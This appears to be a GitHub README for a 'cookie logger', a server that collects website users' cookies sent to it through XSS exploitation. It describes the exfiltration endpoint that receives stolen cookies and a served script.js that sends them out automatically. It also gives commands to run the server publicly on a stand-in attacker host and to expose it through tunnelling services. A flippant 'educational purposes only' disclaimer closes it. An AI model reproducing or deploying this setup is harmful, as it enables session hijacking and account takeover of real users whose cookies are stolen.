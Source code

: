 # Cookie logger🍪

HTTP server to log users' cookies when exploiting XSS.

To log cookies, simply send GET request to `/log?data={cookies}&url={url}`. Cookies will be logged to stdout and stored in `cookies.log` file. 

Script for automatic logging is served at `/script.js`. Note that this script is making an XHR, hence to log cookies on HTTPS site this server should be also HTTPS-hosted. Also, HttpOnly cookies obviously will not be logged because javascript can't access them.

## Running

Set SERVER_URL to public (preferably https) url of a server you're running this script on. If you don't have one, see the next section.  

```
$ export SERVER_URL=https://totally-innocent-url.hack
$ flask --app 'main:create_app("'$SERVER_URL'")' run --host 0.0.0.0 --port 4444
```

or with gunicorn (better for production):

```
$ export SERVER_URL=https://totally-innocent-url.hack
$ gunicorn 'main:create_app("'$SERVER_URL'")' -b 0.0.0.0:4444
```

## Getting public url for free

You can use [Tunnelmole](https://tunnelmole.com/), [Telebit](https://telebit.cloud/), [ngrok](https://ngrok.com/) or any other alternative of your choice. It's simple as:

```
$ tmole 4444
http://s3rd.tunnelmole.net
https://s3rd.tunnelmole.net
```

Then set `SERVER_URL` in the previous section to the received https url and run the server.

## Disclaimer

For educational purposes only and all that jazz.

And I didn't use this for anything nasty, I promise :)